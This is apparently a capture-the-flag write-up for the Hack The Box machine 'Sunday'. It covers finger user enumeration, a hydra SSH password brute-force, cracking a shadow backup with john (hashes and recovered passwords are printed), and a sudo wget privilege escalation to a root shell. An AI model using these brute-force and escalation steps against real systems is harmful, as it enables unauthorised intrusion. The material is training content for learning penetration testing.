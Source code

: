 # Connect to the machine 

use openvpn or another vpn to connect to the machine as follows 

```shell
openvpn lab_acountname.ovpn
```

after that try to ping the machine to make sure you are connected 


```shell
ping 10.10.10.3
```

if you get response then we are ready to enumerate


# Recon

 using Nmap with default scripts with default scripts and with services versions

```shell
nmap -sV -sC 10.10.10.76
```


which results to 

```shell

Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-19 03:02 EDT
Nmap scan report for sunday.htb (10.10.10.76)
Host is up (0.065s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
79/tcp  open  finger?
|_finger: No one logged on\x0D
| fingerprint-strings: 
|   GenericLines: 
|     No one logged on
|   GetRequest: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|   HTTPOptions: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|     OPTIONS ???
|   Help: 
|     Login Name TTY Idle When Where
|     HELP ???
|   RTSPRequest: 
|     Login Name TTY Idle When Where
|     OPTIONS ???
|     RTSP/1.0 ???
|   SSLSessionReq, TerminalServerCookie: 
|_    Login Name TTY Idle When Where
111/tcp open  rpcbind 2-4 (RPC #100000)
515/tcp open  printer
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port79-TCP:V=7.94%I=7%D=8/19%Time=64E06934%P=x86_64-pc-linux-gnu%r(Gene
SF:ricLines,12,"No\x20one\x20logged\x20on\r\n")%r(GetRequest<i cutted the rest here >

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 130.87 seconds
```


to summery this result we have 4 ports open :

1. 79 finger
2. 111 rpcbind
3. 515 printer

# Enumeration

As I am not familiar with these Services i will search the internet for exploitation for each and started with finger :

## finger 

i found this [link](https://book.hacktricks.xyz/network-services-pentesting/pentesting-finger) usefull as it explains what the service is used for and how to enumerate it , but it looks like we will get some usernames from this service.

trying to Enumerate it with 
```shell
echo "root" | nc -vn 10.10.10.76 79

->
(UNKNOWN) [10.10.10.76] 79 (finger) open
Login       Name               TTY         Idle    When    Where
root     Super-User            console      <Oct 14, 2022>
```

it looks like the service works and the root user exists.


using this [script](https://pentestmonkey.net/tools/user-enumeration/finger-user-enum) to brute force the service for available users 

```shell
perl finger-user-enum.pl -U  /usr/share/wordlists/rockyou.txt -t 10.10.10.76

```

i got alot of answers as numbers and names and not user names, but i noticed just two users **sunny,sammy** have a when and where value , so i feel that they are the intended users from this service.

i couldnt find usefull information about attacking the other two services so i decided to go back to **recon** and this time using the nmap flag **-p-** which returned more nonstandard port

and found ssh on 22022 

so i ll use this to try to login in to the account sunny and then sammy

## bruteforcing


i tried brute-forcing the ssh service using hydra as follows (i tried different word list till this one worked for me), note that ssh is slow and yo cant use a huge wordlist :

```shell
hydra -l sunny -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt ssh://10.10.10.76:22022
```

which gaved me the passwrd **sunday**

## ssh

```shell
ssh sunny@10.10.10.76 -p 22022
```

and we got an initial foothold :)

finding the user.txt file 
```shell

find /home -name "user.txt"

->
/home/sammy/user.txt
```

and you can get the flag with the cat command

```shell
cat /home/sammy/user.txt 
```

## Privilege Escalation

using sudo -l we can see our sudo privileges 

```shell
sudo -l

->
User sunny may run the following commands on sunday:
    (root) NOPASSWD: /root/troll

```

running the script as sudo 
```shell
sudo /root/troll
testing
uid=0(root) gid=0(root)
```

nothing usefull and we dont have permission over the file as it is in the root directory.

looking at the history file with the command `history` showed an interesting file for backup **/backup/shadow.backup**

```shell

mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::

```

it looks like a backup for the /etc/shadow file , we can see from the \$5\$  that it is SHA-256 and we can try bruteforcing it using john the ripper 

```shell 
john shadow --wordlist=/usr/share/wordlists/rockyou.txt 

->
Using default input encoding: UTF-8
Loaded 1 password hash (sha256crypt, crypt(3) $5$ [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cooldude!        (sammy)     
1g 0:00:00:38 DONE (2023-08-19 04:25) 0.02631g/s 5376p/s 5376c/s 5376C/s domonique1..canpanita
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
(shadow is a copy of the backup file i copied to my attack host )


now we have the host sammy, lets log as sammy using 
```shell
su sammy
```

then running 

```shell
sudo -l

->
User sammy may run the following commands on sunday:
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/wget

```

we can execute wget as root 

going to the site https://gtfobins.github.io/ and searching for wget,
we see that we can get a root shell using the following commands 

```
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sudo wget --use-askpass=$TF 0
```

and we landed in a root shell :)

and we can read the root flag in 
/root/root.txt